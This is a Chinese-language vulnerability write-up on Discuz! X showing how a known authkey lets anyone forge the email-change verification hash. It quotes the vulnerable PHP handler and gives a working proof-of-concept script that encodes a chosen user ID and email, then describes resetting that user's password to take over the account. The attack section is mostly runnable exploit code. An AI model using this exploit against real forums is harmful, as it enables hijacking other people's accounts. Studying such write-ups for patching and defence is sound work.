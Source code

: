 Discuz! X authkey 重置任意账户邮箱
==================================

一、漏洞简介
------------

需要得到authkey

二、漏洞影响
------------

三、复现过程
------------

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。

![](./.resource/Discuz!Xauthkey重置任意账户邮箱/media/rId24.png)

验证链接类似于

    http://www.0-sec.org/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：

    <?php
    /**
     *      [Discuz!] (C)2001-2099 Comsenz Inc.
     *      This is NOT a freeware, use is subject to license terms
     *
     *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
     */
    if(!defined('IN_DISCUZ')) {
        exit('Access Denied');
    }
    $uid = 0;
    $email = '';
    $_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
    if($_GET['hash']) {
        list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
        $uid = intval($uid);
    }
    // exit($email);
    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
        $member = getuserbyuid($uid);
        $setarr = array('email'=>$email, 'emailstatus'=>'1');
        if($_G['member']['freeze'] == 2) {
            $setarr['freeze'] = 0;
        }
        loaducenter();
        $ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
        if($ucresult == -8) {
            showmessage('email_check_account_invalid', '', array(), array('return' => true));
        } elseif($ucresult == -4) {
            showmessage('profile_email_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -5) {
            showmessage('profile_email_domain_illegal', '', array(), array('return' => true));
        } elseif($ucresult == -6) {
            showmessage('profile_email_duplicate', '', array(), array('return' => true));
        }
        if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
            $membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
            $setarr['groupid'] = $membergroup['groupid'];
        }
        updatecreditbyaction('realemail', $uid);
        C::t('common_member')->update($uid, $setarr);
        C::t('common_member_validate')->delete($uid);
        dsetcookie('newemail', "", -1);
        showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
    } else {
        showmessage('email_check_error', 'index.php');
    }
    ?>

当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。

    list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));

然后经过一次判断

    if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

这里没有任何额外的判断，在接下来的部分，也仅仅对uid的有效性做了判断，而uid代表这用户的id值，是从1开始自增的。

也就是说，只要authcode函数解开hash值，就能成功的验证并修改邮箱。

这里我们可以直接使用authcode函数来获得hash值

### poc

> 这里需要修改md5(\"authkey\")

    <?php
            //Enter your code here, enjoy!
    function authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
        $ckey_length = 4;
        $key = md5($key ? $key : UC_KEY);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);
        $string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);
        $result = '';
        $box = range(0, 255);
        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }
        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }
        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }
        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {
                return '';
            }
        } else {
            return $keyc.str_replace('=', '', base64_encode($result));
        }
    }
    echo authcode("3\ttest@success.com\t1503556905", 'ENCODE', md5(substr(md5("5e684ceqNxuCvmoK"), 0, 16)));

访问hash页面，我们可以看到验证邮箱已经被修改了，接下来我们可以直接通过忘记密码来修改当前用户的密码。

![](./.resource/Discuz!Xauthkey重置任意账户邮箱/media/rId26.png)

参考链接
--------

> https://lorexxar.cn/2017/08/31/dz-authkey/\#%E6%BC%8F%E6%B4%9E%E8%AF%A6%E6%83%85

